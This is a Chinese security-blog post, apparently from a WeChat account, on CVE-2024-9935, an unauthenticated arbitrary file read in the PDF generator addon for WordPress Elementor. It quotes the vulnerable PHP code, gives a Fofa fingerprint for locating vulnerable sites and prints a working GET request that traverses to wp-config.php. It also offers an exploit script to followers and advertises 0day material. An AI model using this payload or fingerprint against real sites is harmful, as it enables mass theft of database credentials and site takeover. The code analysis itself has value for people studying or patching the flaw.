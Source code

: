 #  【1day】WordPress Elementor Page Builder 插件任意文件读取漏洞(CVE-2024-9935)   
Mstir  星悦安全   2024-12-27 04:05  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
  
![](https://mmbiz.qpic.cn/mmbiz_png/J7IPO94Qju9FTugulOKxWfnjYuhwWcBzNp3yfnwWrcF0DcKr27Zc4PQCiaoyhHg7ibojqgfRjictIicb6YtY1emIaw/640 "")  
  
## 0x00 前言  
  
**适用于 WordPress 的 Elementor Page Builder 插件的 PDF 生成器插件在 1.7.5 之前的所有版本中都容易受到路径遍历的攻击，包括 1.7.5 rtw_pgaepb_dwnld_pdf（） 函数。这使得未经身份验证的攻击者能够读取服务器上任意文件的内容，其中可能包含敏感信息。**  
  
****  
**Fofa指纹："wp-content/plugins/pdf-generator-addon-for-elementor-page-builder"**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fDnZUoibTHWHfHicZluk8LdVIlkzkibqcrv8JT943u5kJmAJUsyicaR5KJRL1bDicyGWS205ufWngolYQ/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fDnZUoibTHWHfHicZluk8LdVqhicIwgXp4qHYA9ia1cajwiaP0EO0GeTXuIgIGVvHHblUATMNzmP4WkPw/640?wx_fmt=other&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
**位于 /public/class-pdf-generator-addon-for-elementor-page-builder-public.php的 rtw_pgaepb_dwnld_pdf 方法，通过传入rtw_generate_pdf 和 rtw_pdf_file 来读取任意文件，且无任何过滤，导致漏洞产生.**  
  
****  
```
public function rtw_pgaepb_dwnld_pdf()  {
    if(isset($_GET['rtw_generate_pdf']) && isset($_GET['rtw_pdf_file']) && !empty($_GET['rtw_pdf_file']) )
    {
      $rtw_file_path = RTW_PDF_DIR . '/' .sanitize_text_field($_GET['rtw_pdf_file']);
      $rtw_file_name = sanitize_text_field($_GET['rtw_pdf_file']);
      header("Content-type:application/pdf");
      header("Content-Disposition:attachment;filename=$rtw_file_name");
      readfile($rtw_file_path);
      die();
    }
  }

```  
  
而在 /includes/class-pdf-generator-addon-for-elementor-page-builder.php 中通过init 将此方法引入了全局钩子中，所以可以直接调用.  
```
private function define_public_hooks() {
  ......
  $this->loader->add_action( 'init', $plugin_public, 'rtw_pgaepb_dwnld_pdf' );
  $this->loader->add_action('elementor/widgets/widgets_registered', $plugin_public, 'rtw_pgaepg_add_new_elements');
}

```  
  
  
  
**Payload (读取数据库文件):**  
  
****  
```
GET /?rtw_pdf_file=../../../wp-config.php&rtw_generate_pdf=1 HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fDnZUoibTHWHfHicZluk8LdVIQrAfdhzQL3wthhFN5tRxb74bJmmjCibtVWCtsLFsAoq65icS6Se54kA/640?wx_fmt=other&from=appmsg "")  
  
POC：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fDnZUoibTHWHfHicZluk8LdVMExAYVDqx6dib5q4dtkQ6V9tkvJH69I4DQQfveOunvicCJEC2dTDZNLQ/640?wx_fmt=png&from=appmsg "")  
## 0x02 利用脚本下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**利用脚本关注公众号发送 241227 获取!**  
  
  
  
  
**Edu邀请码关注公众号发送 edu 获取(先到先得)**  
!  
  
  
**进公开群，代码审计，众测，驻场，渗透测试，攻防演练，CNVD证书全网最低价+VX: Lonely3944**  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfhbPBGic08dIfyq6cCbZdhlLkQETGMqZfcZ4FxH5meYTWZAReibE9ZZcA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5erbVnIkcnTFIEZy9wXJARfGm5tc2via1EPictNibZVv7KiaQ3fIQQzxTaJibWDFmw6QaNzYicxTR3ye93g/640?wx_fmt=jpeg "")  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
